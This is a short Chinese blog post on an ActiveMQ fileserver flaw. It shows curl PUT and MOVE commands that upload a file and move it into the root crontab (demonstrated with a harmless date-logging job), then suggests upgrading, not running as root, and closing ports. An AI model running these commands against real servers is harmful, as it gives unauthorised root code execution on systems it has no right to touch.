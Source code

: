 ```yaml
---
layout: post
title: "利用activemq的fileserver漏洞修改系统cron"
date: 2018-03-06
comments: false
categories: 运维
---
```


当服务器安装activemq后，默认开启fileserver用于文件上传，我们可以通过下面指令达到修改系统cron的目的

```bash
# 本地1.txt内容
* * * * * date >> /tmp/1.out

# 将本地1.txt上传至服务器
curl -X put http://server-ip:8161/fileserver/1.txt --upload-file 1.txt

# 将上传后的1.txt移动到/var/spool/cron/root
curl -X MOVE http://server-ip:8161/fileserver/1.txt -H 'Destination: file:///var/spool/cron/root'

# 检查cron服务
crontab -l
```
会发现`* * * * * date >> /tmp/1.out`，即每分钟执行date并输出到/tmp/1.out下

### 漏洞关闭方法

* 升级至5.14.x

### 思索

* 软件尽量不要直接用root运行
* 服务端口能不公开尽量不要公开
* 注意关于一些软件的漏洞报告，如redis、activemq
